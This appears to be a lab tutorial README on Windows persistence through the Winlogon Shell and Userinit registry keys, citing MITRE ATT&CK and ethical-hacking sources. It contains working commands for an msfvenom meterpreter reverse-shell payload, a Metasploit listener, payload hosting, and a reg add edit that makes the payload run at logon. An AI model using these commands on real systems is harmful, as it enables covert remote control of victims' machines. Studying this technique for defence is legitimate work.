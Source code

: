 # Leveraging Registry Keys Utilized by the Winlogon Process
The Winlogon process is a crucial component of the Windows operating system, responsible for several key functions including:

Facilitating user logon and logoff operations
Managing system startup and shutdown procedures
Implementing screen locking functionality.

**The most important registry keys** for this techniques are listed as follows:
```powershell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

### Key Registry Entries for Winlogon
## 1. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

- **Purpose:** This key specifies the default shell used by the operating system. By default, it is set to explorer.exe, which is the Windows graphical user interface.
- **Exploitation:** Attackers can modify this entry to point to a malicious executable. This ensures that the malicious program runs instead of or alongside the normal user interface when the user logs in.


## 2. HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit

- **Purpose:** This key specifies the program that initializes the user environment during the logon process. By default, it is set to userinit.exe.
- **Exploitation:** Attackers can append or replace this entry with a path to their malicious executable. This causes the malicious program to run during the user initialization process, ensuring that it executes every time a user logs in.

## Requirements for Successful Exploitation
- **Local Administrator Privileges:** Modifying these critical registry keys requires local administrator privileges. Attackers must elevate their privileges on the compromised system to make these changes.
- **Persistence:** Once the registry keys are modified, the malicious programs will persist through reboots and logons, making it difficult to detect and remove them.

## Summary
By modifying the Winlogon registry keys (Shell and Userinit), attackers can maintain a persistent foothold on a compromised Windows system. This technique ensures that their malicious programs run during system startup or user logon, leveraging the essential functions of the Winlogon process. However, successfully implementing this strategy requires local administrator privileges, highlighting the importance of securing administrative access and monitoring critical registry changes to detect potential malicious activities.

---
# Example #1
- This example is based on Chapter 3 - Malware Persistence Mechanisms in [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- More explanation by cocomelonc (Zhassulan Zhussupov) can be found in his [blog](https://cocomelonc.github.io/).
## Step 1. Compile `hack.c`
```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```
## Step 2. Compile `pers.c`
```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

Check the registry keys
```powershell
 reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /s
```

---

# Example #2
This example is based on [Persistence – Winlogon Helper DLL](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/) by Penetration Testing Lab.

## Step 1. Generate a malicious payload
```bash	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f exe > hack3.exe
```
![](./screenshots/17.png)

Open a server for victim's Windows 10 VM to download the malicious payload.<br>
```bash
python -m http.server 8000
```
Make sure you move `hack3.exe` to the folder `C:\Windows\Sytem32`. You can open the `Registry Editor`:<br>
![](./screenshots/14.png)

- Press `WIN + R` and type `regedit`. <br>
![](./screenshots/08.png)
![](./screenshots/09.png)
- Right-click `Start` , then select Run. Type regedit in the Open: box, and then select OK ([How to open Registry Editor in Windows 10](https://support.microsoft.com/en-gb/windows/how-to-open-registry-editor-in-windows-10-deab38e6-91d6-e0aa-4b7c-8878d9e07b11)).<br>

Modify the value in `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit` to includ `hack3.exe`.<br>
![](./screenshots/12.png)
![](./screenshots/13.png)

The malicious payload will be executed during Windows authentication, establishing a connection.<br>

One more thing I can do it to modify `Logon Script`<br>
![](./screenshots/15.png)

## Step 2. Exploit

```bash
sudo msfconsole
```
![](./screenshots/05.png)

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP_ADDR>
set LPORT 4444
exploit
```
![](./screenshots/16.png)

or use the commands<br>
```powershell
reg add “HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon” /v Userinit /t REG_SZ /d “C:\Windows\System32\userinit.exe,C:\Windows\System32\hack2.exe” /f

```

# Step 3. Notify Registry

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f dll > pentestlab.dll
```

(coming soon)<br>

---

# References
- Zhassulan Zhussupov (2024)Chapter 3 - Malware Persistence Mechanisms , [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers). Available from: https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers [Accessed 08 August 2024].
- MITRE ATT&CK (2024) [Boot or Logon Autostart Execution: Winlogon Helper DLL](https://attack.mitre.org/techniques/T1547/004/). Available from: https://attack.mitre.org/techniques/T1547/004/ [Accessed 08 August 2024].
- Red Team Notes (2020) [Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper) (blog). Available from: https://www.ired.team/offensive-security/persistence/windows-logon-helper [Accessed 08 August 2024].
- Hadess (2023) The Art of Windows Persistence (blog). Available from: https://hadess.io/the-art-of-windows-persistence/ [Accessed 08 August 2024].
-Penetration Testing Lab (2020) Persistence – Winlogon Helper DLL (blog). Available from: https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/ [Accessed 08 August 2024].